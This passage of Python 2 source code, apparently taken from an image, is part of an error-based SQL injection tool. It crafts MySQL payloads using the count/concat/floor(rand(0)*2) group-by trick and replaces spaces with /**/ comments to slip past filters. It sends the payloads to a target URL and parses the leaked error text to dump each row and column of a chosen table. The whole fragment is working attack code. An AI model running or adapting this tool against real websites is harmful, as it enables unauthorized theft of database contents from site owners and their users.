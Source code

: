     # print column_name
    # print num_column

    payload = "'+and(select 1 from(select count(*),concat((select (select ( select concat(0x7e7e3a7e7e,count(*),0x7e7e3a7e7e) from %s.%s)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+" % (db_name,table_name)
    # print payload
    payload = "/**/".join(payload.split())
    column_value_url = url + payload
    response = urllib2.urlopen(column_value_url)
    html = response.read()
    # print html
    column_value_num = int(re.search(r'~~:~~(\d*?)~~:~~',html).group(1))
    print "Table %s has %d columns" % (table_name,column_value_num)
    print "Table %s column values:" % table_name

    title = "\t"
    str_value = "0x7e7e3a7e7e,"
    for x in xrange(0,num_column):
        title += "%-15s" % column_name[x]
        str_value += "%s,0x20," % column_name[x]
    str_value = ",".join(str_value.split(',')[0:-2]) +",0x7e7e3a7e7e"
    # print str_value
    
    print title
    for index in xrange(0,column_value_num):
        payload = "'+and(select 1 from(select count(*),concat((select (select ( select concat(%s) from %s.%s limit %d,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+" % (str_value,db_name,table_name,index)
        # print payload
        payload = "/**/".join(payload.split())
        value_url = url + payload
        response = urllib2.urlopen(value_url)
        html = response.read()
        # print html
        value = re.search(r'~~:~~(.*?)~~:~~',html).group(1).split()
        # print value
        stri = "\t"
        # print len(value)
        if len(value)==0:
            print ""
        else:
            for x in xrange(0,num_column):
                stri += "%-15s" % value[x]
            print stri
